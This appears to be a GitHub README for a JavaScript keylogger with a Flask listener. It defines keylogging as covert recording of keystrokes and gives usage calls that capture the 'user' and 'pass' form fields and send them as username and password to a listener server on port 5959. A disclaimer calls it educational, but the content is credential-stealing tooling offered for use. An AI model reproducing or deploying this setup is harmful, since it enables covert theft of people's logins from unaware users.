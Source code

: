 # Disclaimer

**This script is for educational purposes only. Do not use it for illegal activities. You are solely responsible for your own actions!**

## keylog

keylogging or keyboard capturing, is the action of recording (logging) the keys struck on a keyboard, typically covertly, so that a person using the keyboard is unaware that their actions are being monitored.

## Usage
> keylogger.js
```js
// Call the send function
send(element_id, server_url, parameter_name);

// For listener.py
// According to listener.py the route should be '/main'
// Parameters for username and password should be username and password
send('user','http://localhost:5959/main','username');
send('pass','http://localhost:5959/main','password');
```
> listener.py
```bash
# install flask
pip3 install flask
```
runs on port 5959

